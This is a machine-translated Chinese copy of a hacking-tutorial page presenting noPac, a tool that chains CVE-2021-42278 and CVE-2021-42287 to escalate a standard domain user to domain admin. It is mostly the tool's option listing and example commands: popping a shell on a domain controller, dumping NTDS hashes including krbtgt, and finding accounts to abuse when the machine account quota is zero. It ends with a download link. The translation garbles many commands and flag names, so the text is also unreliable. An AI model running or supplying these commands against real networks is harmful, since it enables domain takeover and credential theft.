 # noPac:利用 CVE-2021-42278 和 CVE-2021-42287 来冒充来自标准域用户的 DA

> 原文：<https://kalilinuxtutorials.com/nopac/>

[![](img/e0b524e51cf954114e2af8e0e04a08d8.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhiGfmXn_SL2ffsMcG4t2MrspTShMVfErJIHTLhZQwxnuE4h_qu69mG-Lr8tOmFFAlJGAiQc1A6srV1VAIyg9jKbXgpdWjTWfbd_Fz6527WmR_K1dekrjDm9jUNyQsqOuejgAUEOaOqTEu3eL67Vie7z72nFQP7iqv4C4k_CmCFrAKsahAqA06gfzBh/s728/noPac_4%20(1).png)

**noPac** ，利用 CVE-2021-42278 和 CVE-2021-42287 冒充标准域用户的 DA。

## 使用

**山姆管理员 CVE-2021-42278 + CVE-2021-42287 链
位置参数:
【域/】用户名[:密码]
用于向 DC 认证的账户。
可选参数:
-h，–帮助显示此帮助消息并退出
–模拟模拟
将被模拟(通过 S4U2Self)以查询 ST 的目标用户名。请记住，只有当此脚本中提供的身份被允许委派给指定的 SPN
-Domain-NetBIOS NetBIOS name
Domain NetBIOS name 时，此操作才有效。如果 DC 有多个域，则需要此项。
-target-name NEWNAME 目标计算机名，如果没有指定，将随机生成。
-new-pass 密码添加新的计算机密码，如果没有指定，将随机生成。
-旧密码目标计算机密码，如果您知道您用-target-name 输入的目标的密码，请使用。
-old-hash lm hash:n hash
目标计算机哈希，如果您知道使用-target-name 输入的目标的哈希，请使用。
-debug 打开调试输出
-ts 为每个日志输出添加时间戳
-shell 通过 smbexec 丢弃一个 shell
-no-add 强制更改目标计算机的密码。
-创建子账户当前账户有创建子账户的权限。
-Dump Dump Hashs via secrets Dump
-Use-ldap 使用 LDAP 代替 LDAPS
认证:
-hashes lm hash:n hash
NTLM 哈希，格式为 lm hash:n hash
-no-pass 不要询问密码(对-k 有用)
-k 使用 Kerberos 认证。根据帐户参数从 ccache 文件(KRB5CCNAME)中获取凭据。如果找不到有效的凭证，它将使用命令行中指定的凭证
-aesKey 十六进制密钥用于 Kerberos 身份验证的 AES 密钥(128 或 256 位)
-DC-主机主机名要使用的域控制器的主机名。如果忽略，将使用 account 参数中指定的域部分(FQDN)
-DC-ip IP 要使用的域控制器的 IP。如果无法转换 FQDN，则非常有用。将使用帐户参数中指定的模式
执行选项:
-port[目标端口]
连接到 SMB 服务器的目标端口
-mode {SERVER，SHARE}要使用的模式(默认共享，服务器需要 root！)
-share SHARE 将从其中抓取输出的共享(默认 ADMIN$)
-shell-type {cmd，powershell}
为半交互式 shell 选择一个命令处理器
-codec codec 从目标的输出中设置所使用的编码(CODEC)(默认为“GBK”)。
-service-name service _ name
用于触发有效负载
转储选项的服务名称:
-just-dc-user USERNAME
仅提取 NTDS。指定用户的 DIT 数据。仅适用于 DRSUAPI 方法。暗示也-仅-直流开关
-仅-直流提取 NTDS。DIT 数据(NTLM 哈希和 Kerberos 密钥)
-just-dc-ntlm 只提取 NTDS。DIT 数据(仅 NTLM 哈希)
-pwd-last-set 显示每个 NTDS 的 pwdLastSet 属性。DIT 帐户。不适用于-输出文件数据
-用户状态显示用户是否被禁用
-历史转储密码历史，以及 LSA 机密 old val
-resume file resume file
恢复 NTDS 的恢复文件名。DIT 会话转储(仅适用于 DRSUAPI 方法)。此文件还将用于持续更新会话的状态
-use-vss 使用 vss 方法代替默认 DRSUAPI
-exec-method[{ smbexec，wmiexec，mmcexec}]
在目标位置使用远程 exec 方法(仅当使用-use-vss 时)。默认值:smbexec**

注意:如果未指定-host-name，该工具将自动获取域控制主机名，请选择由-dc-ip 指定的主机名。如果未指定–impersonate，该工具将随机选择一个 doamin 管理员进行攻击。默认情况下使用 ldaps，如果出现 ssl 错误，请尝试添加-使用-ldap。

## GetST

**python nop AC . py cgdomain . com/sanfen:' 1 qaz @ wsx '-DC-IP 10 . 211 . 55 . 203**

## 自动获取外壳

**python no PAC . py cgdomain.com/sanfeng:'1qaz@WSX'-DC-IP 10 . 211 . 55 . 203-DC-host lab 2012-shell-模拟管理员**

## 转储哈希

**python no PAC . py cgdomain.com/sanfeng:'1qaz@WSX'-DC-IP 10 . 211 . 55 . 203-DC-host lab 2012–模拟管理员-转储
python no PAC . py cgdomain.com/sanfeng:'1qaz@WSX'-DC-IP 10 . 211 . 55 . 203-DC-host lab 2012–模拟管理员-转储-just-DC-user cgdomain/krbtgt**

## 扫描仪

**python scanner . py cgdomain.com/sanfeng:'1qaz@WSX'-DC-IP 10 . 211 . 55 . 203**

## MAQ = 0

### 方法 1

找到当前用户可以修改的计算机。

**AdFind.exe-sc getacls-sddl filter；；”[WRT 道具]”；；电脑；域\用户-静音**

### 方法 2

找到 CreateChild 帐户，并使用该帐户进行剥削。

**AdFind.exe-sc getacls-sddl filter；；"[CR 子代]"；；电脑；-重新静音**

Exp:添加`**-create-child**`

**python no PAC . py cgdomain.com/venus:'1qaz@WSX'-DC-IP 10 . 211 . 55 . 200-DC-host DC 2008–模拟管理员-创建-子级**

[**Download**](https://github.com/Ridter/noPac)